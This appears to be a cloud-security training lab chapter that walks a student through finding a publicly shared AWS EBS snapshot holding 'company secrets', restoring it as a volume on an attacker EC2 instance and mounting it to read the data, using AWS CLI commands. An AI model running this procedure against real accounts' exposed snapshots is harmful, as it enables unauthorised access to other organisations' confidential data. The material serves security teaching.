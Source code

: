 # Discovering and pillaging EBS

## Introduction

Amazon Elastic Block Store (Amazon EBS) provides persistent block storage volumes for use with Amazon EC2 instances in the AWS Cloud. Each Amazon EBS volume is automatically replicated within its Availability Zone to protect you from component failure, offering high availability and durability. Amazon EBS volumes offer the consistent and low-latency performance needed to run your workloads.

## What are we going to cover?

This chapter is about finding a public EBS snapshot and working with it to discover interesting information.

In this exercise, we will

- Discover a snapshot that has been leaked accidentally on AWS
- Make a volume out of it
- Attach the volume to our attacker machine
- Mount the partition and browse the file system to find interesting information

## Steps to attack

In the EC2 console, under Elastic Block Store > Snapshots, search for 'company secrets'

![EBS pillaging](images/ebs-pillaging.png)

You can also perform the above step using AWS CLI. On the student machine, run the following command. The AWS CLI part of the command lists all the publicly accessible EBS snapshots in `us-east-1` region across AWS. We are using grep to identify public EBS snapshots with certain patterns.

    aws ec2 describe-snapshots --region us-east-1 --restorable-by-user-ids all | grep -C 10 "company secrets"

This is a public snapshot from a different account, leaked accidentally

    snap-03616657ede4b9862

Obtain the availability zone and instance id of your attacker EC2 by running the command

    aws ec2 describe-instances --filters Name=tag:Name,Values=attacker-machine

Once the availability zone is obtained, insert it into the following command to create a new volume using the discovered snapshot

    aws ec2 create-volume --snapshot-id snap-03616657ede4b9862 --availability-zone <ZONE-HERE>

Once the volume is created, note the 'VolumeID'

Next step is to attach the newly created volume to the EC2 attacker machine using the instance id of your attacker EC2 and the volume id of the newly created volume

    aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

This may take some time. To check the status of the volume (it should say "in use")

    aws ec2 describe-volumes --filters Name=volume-id,Values=<VOLUME-ID>

Once the volume is attached, identify the partition using `lsblk` and mount it. **Run the following commands on the attacker machine as that is where the volume has been attached using the AWS CLI**

    sudo lsblk

    sudo mount /dev/xvdh1 /mnt

Access the secret company data at /mnt/home/ubuntu/companydata

    cd /mnt/home/ubuntu/companydata

## Additional references
- [Attach and mount EBS Volume](https://devopscube.com/mount-ebs-volume-ec2-instance/)
- [Challenge 4 - Flaws.cloud](https://warsang.ovh/flaws-cloud/)